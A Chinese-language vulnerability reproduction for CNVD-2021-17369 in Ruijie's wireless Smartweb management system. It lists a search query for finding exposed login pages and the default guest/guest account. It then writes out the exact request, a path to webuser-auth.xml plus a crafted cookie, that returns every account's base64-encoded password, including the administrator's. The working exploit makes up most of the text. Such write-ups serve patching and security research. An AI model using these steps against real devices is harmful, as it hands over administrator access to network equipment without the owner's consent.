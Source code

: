 # 锐捷 Smartweb管理系统 密码信息泄露漏洞 CNVD-2021-17369

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

```
锐捷网络股份有限公司 无线smartweb管理系统
```

## 网络测绘

```
title="无线smartWeb--登录页面"
```

## 漏洞复现

登录页面如下

![](images/202202110921639.png)

默认存在 guest账户，账号密码为 **guest/guest**

其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密

![](images/202202110921386.png)

解密就可以获得 admin管理员的密码，尝试直接请求

```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](images/202202110921729.png)

直接获得所有的账户的等级标志和base64加密的账号密码
